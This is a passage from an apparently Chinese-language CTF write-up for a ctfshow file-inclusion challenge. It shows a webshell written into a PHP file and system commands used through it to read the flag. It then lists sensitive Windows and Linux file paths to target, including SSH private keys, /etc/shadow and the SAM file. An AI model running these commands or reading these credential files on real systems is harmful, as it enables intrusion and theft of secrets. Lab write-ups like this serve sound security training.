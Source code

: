 这里就往1.php文件中写入了webshell

输入/1.php?aa=highlight_file('1.php');

可以查看1.php中前面的`<?php die();?>`已经被编码后的字符替代

![web117_highlight](./image_include/web117_highlight.png)

接下来直接执行命令查看flag即可system(ls);system('cat flag.php');

ctfshow{2b2fd8cd-8b76-4f5d-a1f1-6d2caa4fcd2c}

![web117_flag](./image_include/web117_flag.png)

## 文件包含利用

### 一、包含一些敏感的配置文件
windows常见的敏感文件路径:

```
C:\boot.ini //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml //IIS配置文件
C:\Windows\repair\sam //存储系统初次安装的密码
C:\Program Files\mysql\my.ini //Mysql配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
C:\Windows\php.ini //php配置信息
C:\Windows\my.ini //Mysql配置信息
C:\Windows\win.ini //Windows系统的一个基本系统配置文件
```

Linux常见的敏感文件路径:

```
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_ras.keystore
/root/.ssh/known_hosts //记录每个访问计算机用户的公钥
/etc/passwd
/etc/shadow
/etc/my.cnf //mysql配置文件
/etc/httpd/conf/httpd.conf //apache配置文件
/root/.bash_history //用户历史命令记录文件
/root/.mysql_history //mysql历史命令记录文件
/proc/mounts //记录系统挂载设备
/porc/config.gz //内核配置文件
/var/lib/mlocate/mlocate.db //全文件路径
/porc/self/cmdline //当前进程的cmdline参数
```
